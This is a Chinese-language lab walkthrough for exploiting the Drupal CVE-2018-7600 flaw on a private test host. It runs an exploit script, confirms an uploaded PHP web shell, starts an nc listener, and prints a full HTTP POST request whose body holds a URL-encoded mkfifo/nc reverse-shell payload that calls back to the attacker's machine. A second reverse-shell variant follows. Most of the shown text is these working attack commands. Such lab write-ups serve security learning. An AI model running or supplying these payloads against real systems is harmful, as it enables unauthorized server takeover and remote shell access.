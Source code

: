 ```
./drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c ls
```

查看php木马是否上传成功

![image-20230628232146849](image-20230628232146849.png)





首先在kali中使用nc进行监听

nc -lvnp 9000

在浏览器中访问http://192.168.5.132/drupal/moon.php



使用burp进行抓包准备反弹shell

```
POST /drupal/moon.php HTTP/1.1

Host: 192.168.5.132

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4482.0 Safari/537.36 Edg/92.0.874.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Connection: close

Cookie: has_js=1

Upgrade-Insecure-Requests: 1

Content-Type: application/x-www-form-urlencoded

Content-Length: 91



moon=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/bash++2>%261|nc+192.168.5.129+9000+>/tmp/f
```



注意这里的 192.168.5.129为kali的ip地址

moon博客里写的是/bin/sh -i 但是我在测试时报错了

rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+‐i+2>%261|nc+192.168.0.136+9001+>/tmp/f


